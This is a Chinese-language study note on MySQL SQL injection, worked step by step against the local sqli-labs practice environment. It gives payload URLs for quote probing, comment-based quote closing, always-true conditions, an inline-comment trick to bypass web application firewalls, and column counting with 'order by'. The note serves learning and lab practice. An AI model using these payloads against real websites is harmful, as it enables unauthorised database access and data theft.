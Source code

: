 # 数据库(MySQL)相关注入语句的收集和学习

所谓SQL注入，就是通过把SQL命令插入到 Web表单提交 或 URL 或 页面请求等的查询字符串中，最终达到欺骗服务器执行恶意的SQL命令。

即：将构造的SQL语句插入到正常提交的字符串中，并使服务器将字符串中的命令解析为可执行命令而不是字符串。

SQL注入练习环境（Apache+mysql+php）:

Sqlilabs  https://github.com/Rinkish/Sqli_Edited_Version



## GET Union注入

**1.判断是否存在注入点**

通过在URL中修改对应的ID值，为正常数字，大数字，字符（单引号，双引号，双单引号，括号，反斜杆)来探测URL中是否存在注入点。

判断注入类型：

数字型注入：id=1 返回正常 --> id=2-1 返回正常

字符型注入：id=1 返回正常 --> id=1a 返回正常 

```
http://localhost/sqlilabs/Less-1/?id=1    #正常显示
```

![image-20201130203101671](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201130203101671.png)

```
http://localhost/sqlilabs/Less-1/?id=1'   
//添加单引号后报错,猜测sql语句 SELECT * FROM users WHERE id='1'' LIMIT 0,1
```

![image-20201128231003746](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201128231003746.png)

**2.添加注释（添加的单引号闭合前面的单引号，再用注释符注释掉后面内容）**

```
http://localhost/sqlilabs/Less-1/?id=1'--+        
//后面加上and '1'='1 ,or '1'='1 ,and '1' like '1，or' '=1=' 亦可，闭合单引号
sql语句 SELECT * FROM users WHERE id='1'-- ' LIMIT 0,1
```

![image-20201128231239638](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201128231239638.png)



注释符：在Mysql中常见的注释符表达式：#(%23) 或--空 格或 /**/

内联注释： /*! SQL语句 */ 只有Mysql可以识别，常用来绕过WAF

```
select * from articles where id = -1 /*!union*/ /*!select*/ 1,2,3,4
```

**3.判断字段数量(使用order by 对字段排序)**

```
http://localhost/sqlilabs/Less-1/?id=1' order by 1--+  #对第一列排序，正常
```
